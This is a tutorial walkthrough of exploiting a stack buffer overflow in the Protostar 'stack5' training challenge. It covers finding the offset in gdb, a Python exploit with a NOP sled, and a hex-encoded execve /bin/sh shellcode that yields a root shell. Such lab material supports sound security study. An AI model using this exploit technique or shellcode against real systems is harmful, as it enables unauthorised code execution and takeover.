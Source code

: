 ## What is a Buffer Overflow and How Hackers Exploit these Flaws part 3

In our [previous article](https://github.com/neoslab/tutorials/blob/master/articles/5afb15034ccc33d4750897090b47a57e.md) we have seen how to change variables or either execute functions which should not be done through a **stack buffer overflow** including few others things. But imagine the case where there is none of this! How we can successfully execute what we want?

Well, the solution is simple! We will use **Shellcodes**. In hacking, a Shellcode is a small piece of code used as the payload in the exploitation of a vulnerability. It is called "Shellcode" because it typically starts a command shell from which the attacker can control the compromised machine.

**Source:** [wikipedia.org](https://en.wikipedia.org/wiki/Shellcode)

###### HOW TO EXECUTE OUR SHELLCODE?

You remember by rewriting `saved rip`, we could redirect our execution flow anywhere in the memory. If we want to use a Shellcode, the principle is the same except we will redirect the flow to our Shellcode to be able to execute it. The main question is where to put our Shellcode? Well if you remember what we have seen previously, the Shellcode can be put on the stack or in an environment variable.

**Placing a Shellcode in the buffer**

```
[[shellcode][padding]][saved ebp][saved eip -> the address to our shellcode]
```

**Placing a Shellcode behind eip**

```
[buffer (padding)][saved ebp][saved eip -> the address of the nop][nop * large number][shellcode]
```

What is `nop`? Do you remember our [first article](https://github.com/neoslab/tutorials/blob/master/articles/12089bda5ec9cb38858eb2184ceaa179.md). If you already forgot, I kindly suggest you have a look at what we already have seen during our first approach. To cut short, "nop = No Operation", which concretely means to don't do anything and simply move to the next instruction.

How useful is this, you would say? This allows us to have the addresses that go right to the following instructions and finally to the Shellcode, so we no longer have to take the precise address of our Shellcode but just an address in our `nop`.

* * *

###### EXAMPLE OF EXPLOITATION

It's now the time to move on the concrete aspect of the exploitation and to do this we will use the challenge "stack5" from the [Exploit-Education](https://exploit.education/protostar/) website which contains several exercises regarding binary exploitation. Here is the code that we will use:

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
    char buffer[64];
    gets(buffer);
}
```

**How and where to Get Started?**

In the above source code, we can see a buffer of 64-bytes is created and the function `gets()` is called. What we must do is overflow the buffer by rewriting the return address pointing to our Shellcode. Suppose we do not have the source code, we are going to disassemble `main` using `gdb`. This will allow us among other things to find the address of the buffer where our Shellcode will be placed.

```bash
cd /opt/protostar/bin
gdb -q stack5
Reading symbols from /opt/protostar/bin/stack5...done.
(gdb) disas main
```

**Output**

![image-1](https://raw.githubusercontent.com/cybsploit/tutorials/master/medias/21301488d1528d66211d9f24a88ba783-1.png "Image-1")

Now we are going to put a breakpoint into the `main()` function to stop the execution of the program and examine what is on the stack.

```bash
(gdb) b * 0x080483da
Breakpoint 1 at 0x80483da: file stack5/stack5.c, line 11.
```

Through `r` and `i r ` for "info registers" we can get a complete overview and analyze the registers. So let's run it and check what we get.

**Output**

![image-2](https://raw.githubusercontent.com/cybsploit/tutorials/master/medias/21301488d1528d66211d9f24a88ba783-2.png "Image-2")

The `eax` value must contain the string that we have entered "ABCDEF" and therefore the beginning of the buffer is `0xbffffc70`.

```bash
(gdb) x/s 0xbffffc70
0xbffffc70:     "ABCDEF"
```

Since the stack `esp` register points to `0xbffffcbc` then we can calculate the length of our padding using the following command:

```bash
(gdb) p/d 0xbffffcbc - 0xbffffc70
$1 = 76
```

We can determinate that our filler length is equal to 76 and since we got it, we can overwrite the return address. In order to do it, open a new terminal and execute the following python command in order to get the complete string:

```bash
python -c "print 'A' * 76 + 'B' * 4"
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
```

Copy the complete string in your clipboard and back the terminal where your instance of `gdb` is running and past the string after executing the `r` command as per the following:

```bash
(gdb) r
Starting program: /opt/protostar/bin/stack5
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB

Breakpoint 1, 0x080483da in main (argc=Cannot access memory at address 0x41414149
) at stack5/stack5.c:11
11      stack5/stack5.c: No such file or directory.
        in stack5/stack5.c
```

Once you are done, simply execute the following command to check if the value of your stack `esp` register has been updated:

```bash
(gdb) x/s 0xbffffcbc
0xbffffcbc:      "BBBB"
```

As you can see the content of `0xbffffcbc` is now "BBBB", so we can already handle the return address. The return address should be "0xbffffcbc + 4" which is equal to `0xbffffcc0`. If you want to be sure that address is already present in the stack simply execute the following command in the terminal that running your `gdb` instance:

```bash
(gdb) x/60wx $eax
```

**Output**

![image-3](https://raw.githubusercontent.com/cybsploit/tutorials/master/medias/21301488d1528d66211d9f24a88ba783-3.png "Image-3")

Now we are going to create an exploit to verify that we will be able to execute arbitrary code, for this we will use the `Interrupt 3` instruction in order to stop the execution of the program and create a breakpoint.

```bash
cat >> /tmp/exploit.py << EOL
import struct

def m32(dir):
    return struct.pack("I",dir)

padding="A"*76
ret=m32(0xbffffcc0)
nops="\x90"*20 # NOPs
shellcode="\xCC"*4
print padding+ret+nops+shellcode
EOL

python /tmp/exploit.py > /tmp/file
cd /opt/protostar/bin/
./stack5 < /tmp/file
```

**Output**

![image-4](https://raw.githubusercontent.com/cybsploit/tutorials/master/medias/21301488d1528d66211d9f24a88ba783-4.png "Image-4")

We see that it works, now we are going to try to execute a shell `/bin/sh` as root. We can generate the Shellcode using **msfvenom** or search for one that works in our situation on [Shell Storm](http://shell-storm.org/shellcode/) website. To make it easier for you, I already selected a Shellcode that you can use in this situation and which can be found [here](http://shell-storm.org/shellcode/files/shellcode-811.php). So considering all of this our final payload will be:

```
import struct

def m32(dir):
    return struct.pack("I",dir)

padding="A"*76
ret=m32(0xbffffcc0)
nops="\x90"*20
shellcode = ""
shellcode += "\x31\xc0\x50\x68\x2f\x2f\x73"
shellcode += "\x68\x68\x2f\x62\x69\x6e\x89"
shellcode += "\xe3\x89\xc1\x89\xc2\xb0\x0b"
shellcode += "\xcd\x80\x31\xc0\x40\xcd\x80"

print padding+ret+nops+shellcode
```

The final step will be to save the above piece of code in a file that I will personally name "exploit.py" and execute it using the below command:

```bash
(python /tmp/exploit.py;cat) | ./stack5
```

**Output**

![image-5](https://raw.githubusercontent.com/cybsploit/tutorials/master/medias/21301488d1528d66211d9f24a88ba783-5.png "Image-5")

We can now execute commands as root on the system. As I said before, these challenges are an introduction, nowadays binaries have protection, such as NX for Linux or DEP for Windows, which makes some memory areas (usually the stack) not executable. However, understand theses principles is a good start if you want to involve deeper into the **Buffer Overflow**.

For more information about this tutorial and to see a live demonstration of this type of attack, I encourage you to watch the video below.

[![video-1](http://i3.ytimg.com/vi/w4wNgTnWqdQ/maxresdefault.jpg)](https://www.youtube.com/watch?v=w4wNgTnWqdQ)

